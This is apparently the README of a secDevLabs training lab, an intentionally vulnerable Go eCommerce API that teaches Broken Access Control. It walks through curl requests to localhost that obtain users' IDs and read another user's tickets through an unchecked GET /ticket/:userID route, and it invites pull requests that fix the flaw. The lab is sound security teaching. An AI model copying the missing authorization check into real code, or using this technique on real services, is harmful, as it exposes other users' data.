




# Vulnerable eCommerce API

[Access content in English](README_PT_BR.md)

<p align="center">
    
</p>

Vulnerable eCommerce API is a simple Golang web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a1/ecommerce-api
```

```sh
make install
```

Then simply visit [localhost:10005][app] ! 😆

## Get to know the app 💵

To properly understand how this application works, you can follow this step:

- Try registering a user and log in!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of userID validation allows for an attacker to get other users' tickets

In order to better understand how this API works, two users, `user1` and `user2`, were created as shown below:

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:10005/register
```

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user2","password":"pass"}' http://localhost:10005/register
```

<p align="center">
    
</p>

Or using web interface:

<p align="center">
    
</p>

The users created above are registered on MongoDB and we can get their `userID` through the following curl commands:

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:10005/login
```

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user2","password":"pass"}' http://localhost:10005/login
```

<p align="center">
    
</p>

This can also be observed via the web interface. In the web interface it is possible to verify that after completing the login form, two requests are made to the API.

<p align="center">
    
</p>

### 🔥

Having both `userID`, we can verify that the route "`GET /ticket/:userID`" does not validate if the request was made by the same user or someone else without the proper permission, as shown by the image:

```sh
curl -vvv http://localhost:10005/ticket/GUID
```

<p align="center">
    
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Access other users' tickets.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Vulnerable+Ecommerce+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10005
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api
